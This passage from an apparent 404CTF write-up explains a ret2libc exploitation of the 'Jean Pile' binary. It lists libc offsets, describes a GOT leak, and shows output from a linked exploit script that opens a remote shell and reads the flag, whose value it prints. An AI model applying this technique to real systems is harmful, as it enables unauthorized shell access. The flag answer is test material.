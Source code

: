 We can now use a libc database such as [this once](https://libc.rip/) to find the offsets we need :

```md
puts	0x77980
system	0x4c490
str_bin_sh	0x196031
```

`str_bin_sh` being the string `/bin/sh` we'll need to give to `system` as parameter to open a shell. Using those three values, we can now calculate the addresses we need to pwn this program.

## Exploit

Using [this final script](./exploit.py), we leak the GOT tables from which we calculate the address to `system` and `/bin/sh`. Then we redirect the program towards the beginning of the function `service` to send another payload to open a shell :

```python
$ python3 exploit.py     
[*] '/home/coucou/Documents/404CTF_WriteUps/Jean_Pile/jean_pile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
[+] Opening connection to challenges.404ctf.fr on port 31957: Done
[*] Switching to interactive mode
$ ls
flag.txt
jean_pile
$ cat flag.txt
404CTF{f4n_2_8denn3u}
```

We get the flag !
